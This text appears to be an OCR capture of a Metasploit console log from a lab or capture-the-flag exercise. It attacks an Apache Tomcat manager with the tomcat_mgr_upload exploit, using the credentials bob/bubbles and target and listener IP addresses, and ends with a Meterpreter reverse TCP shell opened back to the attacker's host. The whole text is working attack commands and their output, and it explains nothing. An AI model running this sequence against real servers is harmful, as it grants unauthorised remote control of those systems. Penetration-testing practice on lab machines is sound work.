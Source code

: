 
Interact with a module by name or index, for example use 22 or use post/windows/gather/enum_tomcat

msf5 > use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/http/tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.13     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf5 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf5 exploit(multi/http/tomcat_mgr_upload) > set httpUsername bob
httpUsername => bob
msf5 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.31.199
RHOSTS => 10.10.31.199
msf5 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf5 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.8.65.165
LHOST => 10.8.65.165
msf5 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.8.65.165:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying MxGhQ5DeQfvOu05K2jeNjkjIrE...
[*] Executing MxGhQ5DeQfvOu05K2jeNjkjIrE...
[*] Undeploying MxGhQ5DeQfvOu05K2jeNjkjIrE ...
[*] Sending stage (53944 bytes) to 10.10.31.199
[*] Meterpreter session 1 opened (10.8.65.165:4444 -> 10.10.31.199:45764) at 2020-08-13 16:12:50 +0200
